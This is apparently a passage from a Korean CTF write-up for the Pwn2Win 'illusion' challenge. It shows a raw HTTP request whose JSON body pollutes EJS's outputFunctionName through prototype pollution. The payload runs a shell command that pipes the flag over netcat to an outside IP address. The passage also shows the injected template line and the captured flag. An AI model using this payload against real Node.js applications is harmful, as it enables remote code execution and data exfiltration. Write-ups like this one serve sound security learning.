 ```
POST /change_status HTTP/1.1
Host: illusion.pwn2win.party:44211
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cXp0bG5mdXlzZXVxeWpmaQ==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.687081227.1622238128; _gid=GA1.2.492571223.1622429990
Content-Type: application/json
Connection: close
Content-Length: 155

{
    "constructor/prototype/outputFunctionName": "_; process.mainModule.require('child_process').execSync('./readflag | nc 141.164.52.207 80');//"
}
```
그래서 위와 같이 값을 보내 `Prototype Pollution`을 이용해서 `outputFunctionName`의 값을 `value` 값으로 오염을 시켜주었다.

```js
      if (opts.outputFunctionName) {
        prepended += '  var _; process.mainModule.require('child_process').execSync('./readflag | nc 141.164.52.207 80');// = __append;' + '\n';
      }
```
그럼 `compile()` 메서드 내부에서는 위와 같이 완성이 되어 js 코드가 실행이 될 것이다.

![](https://github.com/wjddnjs33/image/blob/main/prototype/flag.png?raw=true)

그래서 index 페이지로 접속을 해보니 `ejs.renderFile()` 메서드가 실행이 되어 RCE가 발생해 플래그를 얻을 수 있었다.

> FLAG : CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}

---
